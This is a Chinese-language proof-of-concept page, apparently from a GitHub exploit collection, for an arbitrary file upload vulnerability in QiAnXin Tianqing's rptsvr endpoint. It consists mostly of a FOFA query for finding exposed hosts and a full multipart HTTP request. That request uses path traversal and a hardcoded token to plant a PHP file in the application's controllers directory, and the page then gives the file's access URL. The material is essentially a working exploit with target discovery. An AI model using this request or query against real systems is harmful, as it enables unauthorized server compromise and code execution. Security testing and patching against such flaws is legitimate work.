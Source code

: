 ## 奇安信天擎rptsvr任意文件上传

奇安信 天擎管理中心 <=V6.7.0.4130 版本的rptsvr接口存在任意文件上传漏洞，可上传恶意至服务器，执行脚本文件。

## fofa
```
banner="QiAnXin web server" || banner="360 web server"  || body="appid\":\"skylar6" || body="/task/index/detail?id={item.id}" || body="已过期或者未授权，购买请联系4008-136-360"
```

## poc
```
POST /rptsvr/upload HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_9_2) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/36.0.1944.0 Safari/537.36
Connection: close
Content-Length: 414
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.5
Content-Type: multipart/form-data;boundary=---------------------------55433477442814818502792421460
Upgrade-Insecure-Requests: 1

-----------------------------55433477442814818502792421460
Content-Disposition: form-data; name="uploadfile"; filename="../../../application/api/controllers/TController2.php"
Content-Type: text/x-python

<?php
phpinfo();
?>
-----------------------------55433477442814818502792421460
Content-Disposition: form-data; name="token"

skylar_report
-----------------------------55433477442814818502792421460
```

![ee8643c18675a73d8d0a327cb110adde](../../images/e202d50b-2860-47b8-8670-07b015a5cc7f.png)

#### 访问上传文件路径如下：
`http://xxxx/application/api/controllers/TController2.php`

![099c23949f851175f1e3306c0c102637](../../images/73b370c6-2c4f-4422-ada3-33ebf4a952b2.png)

